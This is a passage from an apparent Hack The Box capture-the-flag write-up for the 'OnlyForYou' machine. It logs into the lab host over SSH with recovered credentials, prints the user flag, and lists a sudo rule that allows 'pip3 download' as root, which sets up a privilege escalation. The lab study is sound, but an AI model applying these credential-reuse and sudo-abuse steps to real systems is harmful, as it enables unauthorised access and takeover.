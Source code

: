 And we obtain the credentials `john:ThisIs4You`. Let's utilize it to establish an SSH connection:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ ssh john@only4you.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-146-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 17 Jul 2023 10:08:07 PM UTC

  System load:           0.1
  Usage of /:            86.2% of 6.23GB
  Memory usage:          49%
  Swap usage:            0%
  Processes:             244
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.210
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f52f

  => / is using 86.2% of 6.23GB


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Apr 18 07:46:32 2023 from 10.10.14.40
john@only4you:~$ cat user.txt
0f6a874d59cae9c38ad03b81a94ccd8d
```

And we get the user flag `0f6a874d59cae9c38ad03b81a94ccd8d`.

### Root

By executing `sudo -l`, we receive the following output::
```console
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```
